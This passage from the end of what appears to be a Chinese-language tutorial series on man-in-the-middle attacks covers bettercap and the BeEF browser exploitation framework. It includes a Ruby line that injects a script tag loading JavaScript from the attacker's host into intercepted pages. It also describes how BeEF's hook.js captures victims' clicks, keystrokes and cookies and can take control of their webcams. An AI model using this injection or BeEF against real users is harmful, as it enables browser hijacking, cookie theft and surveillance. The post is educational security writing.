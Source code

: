           response.body.sub!( '</title>', "</title><script src='http://#{localaddr}:#{localport}/file.js' type='text/javascript'></script>" )
        end
      end
    end  

目前bettercap的功能还比较简单，但优点是其更新维护非常快，可以说是日新月异，和ettercap等老古董形成鲜明对比呀:D

## BeEF

BeEF全称为Browser Exploitation Framework，是一个著名的浏览器劫持框架，也是采用Ruby编写。虽然安装依赖的过程有点繁琐，但用起来着实简单无比，
只需要运行：
    
    ./beef

运行后会启动一个用户接口服务器和一个挂载BeEF主要JS脚本（hook.js）的服务器，其架构如下：

![BeEF-overall](http://images2015.cnblogs.com/blog/676200/201511/676200-20151123192955467-1825550887.png)

其中用户接口也是一个http服务器，我们只需要在浏览器中打开，就能进入一个展现所有被注入的客户机的管理后台。如果客户端浏览的某个网页payload中加载
了hook.js，那么其一举一动都会发送到我们的UI服务器上，包括鼠标的点击事件，点击位置，键盘事件等等，查看cookie和客户端的机器信息更是不在话下：

![hook-interface](http://images2015.cnblogs.com/blog/676200/201511/676200-20151123193727405-301424133.png)

针对每一台被劫持的客户端（浏览器），我们还可以对其发送不同的指令，比如播放音乐，锁住页面，打开web摄像头。值得一提的是，BeEF还能配合metasploit
来入侵目标的电脑，从而在目标关闭浏览器后依旧能拥有其计算机的控制权。

## 后记

中间人攻击的大致方法至此就介绍得差不多了，在总结的过程中自己也学了不少工具的的用法。虽然MITM的工具繁多，但明白其原理才能更好地去使用，
以及对其进行拓展。轮子是个好东西，人类只有几十年有效寿命和有限的精力，却能够不断发展到现在这样科技发达，靠的就是不断理解和使用轮子，把前人
的推论当成定理，可以说人类社会的进步就是一个面向对象编程的过程。但是，也不用把别人的轮子看得过于神秘，说到底中间人也就是接收，解析，发送三步而已。
至于怎么防御这类攻击，最好的方法就是浏览器禁cookie，禁javascript，禁flash，最终还是得和个人的上网体验相权衡，毕竟如果把眼睛都蒙上了，我还上什么网呢。


[mitm-1]: http://pannzh.github.io/tech/mitm/2015/11/01/mitm-detail-1.html
[robert]: https://github.com/robertdavidgraham
[my-hamster]: https://github.com/pannzh/hamster
